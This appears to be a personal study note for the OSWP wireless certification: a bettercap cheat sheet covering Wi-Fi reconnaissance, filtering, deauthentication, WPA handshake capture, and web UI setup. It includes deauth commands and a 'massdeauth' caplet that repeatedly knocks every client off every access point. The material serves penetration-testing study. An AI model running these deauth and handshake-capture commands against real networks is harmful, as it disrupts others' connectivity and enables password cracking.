 ```yaml
---
{"dg-publish":true,"permalink":"/2-oswp/9-bettercap/"}
---
```


----------------------
	Swiss Army Knife of Network Hacking

## Getting started
Start bettercap:
```
sudo bettercap -iface wlan0
```
Clear screen:
	clear
Exit bettercap:
	exit
--------------
## Modules vs. commands
- Six modules:
	- Bluetooth LE
	- HID on 2.4GHz
	- Ethernet
	- Wi-Fi
	- Ticker
-------------
## Commands:
### Scanning & discovery
Start/stop scanning for APs, clients & handshakes:
```
wifi.recon <on/off>
```
Scan for specific channels:
```
wifi.recon.channel 6,11
```
Clear specified channels:
```
wifi.recon.channel clear
```
Enumerate connected clients:
```
wifi.recon c6:2d:56:2a:53:f8
```
Exit client view:
```
wifi.recon clear
```
Display discovered wireless stations:
```
wifi.show
```
Clear discovered APs:
```
wifi.clear
```
Change how long for client to be marked as disconnected (default 300/five min):
```
set wifi.sta.ttl 100
```
Enable/disable 802.11 checksum validations:
```
set wifi.skip-broken <true/false>
```
### Filtering & sorting
Sort discovered stations:
```
set wifi.show.sort <column-name> <asc/desc>
```
Filter discovered stations:
```
set wifi.show.filter "WPA2"
```
Clear filter:
```
set wifi.show.filter ""
```
Enumerate clients connected to AP:
```
wifi.recon c6:2d:56:2a:53:f8
wifi.show
```
Filter discovered stations for signal strength (default -200):
```
set wifi.rssi.min -49
```
Limit number of APs displayed (clear with 0)
```
set wifi.show.limit 10
```
Show manufacturers:
```
set wifi.show.manufacturer true
```
### Tickers
Enable/disable ticker:
```
ticker <on/off>
```
Set ticker commands:
```
set ticker.commands "clear; wifi.show"
```
Run ticker on start:
```
sudo bettercap -iface wlan0 -eval "set ticker.commands 'clear; wifi.show'; wifi.recon on; ticker on"
```
Set ticker time to execution (default 1 sec):
```
set ticker.period 2
```
### Deauth & handshakes
Deauthenticating AP:
```
wifi.deauth c6:2d:56:2a:53:f8
```
Deauthenticating client:
```
wifi.deauth ac:22:0b:28:fd:22
```
Getting handshake:
```
get wifi.handshakes.file
```
Setting handshake save file:
```
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
```
Adding devices to skip-list:
```
set wifi.deauth.skip ac:22:0b:28:fd:22,c6:2d:56:2a:53:f8
```
Skipping previously captured handshakes:
```
set wifi.deauth.acquired <true/false>
```
Deauthenticating open networks:
```
set wifi.dauth.open <true/false>
```
Hiding deauth-messages from terminal:
```
set wifi.deauth.silent <true/false>
```

------------------

## Caplets
Files that allows to run a series of commands in bettercap using .cap extension

Caplet directory: 
 `/usr/share/bettercap/caplets/`

Example caplet "massdeauth.cap":
```
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}

# every 10 seconds deauth every client from every ap
set ticker.period 10
set ticker.commands clear; wifi.deauth ff:ff:ff:ff:ff:ff

# uncomment to only hop on these channels:
# wifi.recon.channel 1,2,3

wifi.recon on
ticker on
events.clear
clear
```

Example caplet "deauth_corp.cap":
```
set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}

set ticker.period 10
set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8

events.ignore wifi.ap.new
events.ignore wifi.client.probe
events.ignore wifi.client.new

wifi.recon on
ticker on
events.clear
clear
```

Starting caplet:
```
sudo bettercap -iface wlan0 -caplet <caplet-file>
```

Starting caplet from session:
```
include <caplet-file>
```

---------

## Bettercap Web Interface

Set up server firewall rules:
```
sudo nft add table inet filter
sudo nft add chain inet filter INPUT { type filter hook input priority 0\; policy drop\; }
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 443 accept
sudo nft add rule inet filter INPUT ip saddr <your-ip> tcp dport 8083 accept
```

Configure username and password:
```
sudo nano /usr/share/bettercap/caplets/https-ui.cap
#Edit lines 16 and 17
```

Start web UI:
```
sudo bettercap -iface wlan0 -caplet https-ui
```

Access:
- Accept self-signed certs on main page and :8083/api